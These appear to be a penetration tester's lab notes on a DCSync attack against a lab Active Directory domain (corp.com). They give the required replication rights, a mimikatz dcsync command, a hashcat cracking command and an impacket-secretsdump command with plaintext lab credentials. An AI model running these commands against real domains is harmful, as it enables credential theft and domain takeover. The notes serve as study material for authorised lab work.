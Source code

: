 ```yaml
---
IP_KALI: 192.168.45.155
USER: pete
TARGET_USER: backupuser
PASSWD: DonovanJadeKnight1
DCIP: 192.168.115.70
DOMAIN: corp.com
---
```

To launch such a replication, a user needs to have: 
- Replicating Directory Changes 
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set rights. 
By default, members of the **Domain Admins,** **Enterprise Admins**, and **Administrators** groups have these rights assigned.


On Window:
We perform this attack in mimikatz, we provide the username for the user we want to target:
```
.\mimikatz.exe
```
```
lsadump::dcsync /user:corp\dave
```

Crack hash:
```
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

On Linux:
- impacket-secretsdump -just-dc-user <span id="USER"/>pete<span type="end"/> <span id="DOMAIN"/>corp.com<span type="end"/>/<span id="TARGET_USER"/>backupuser<span type="end"/>:"<span id="PASSWD"/>DonovanJadeKnight1<span type="end"/>"@<span id="DCIP"/>192.168.115.70<span type="end"/>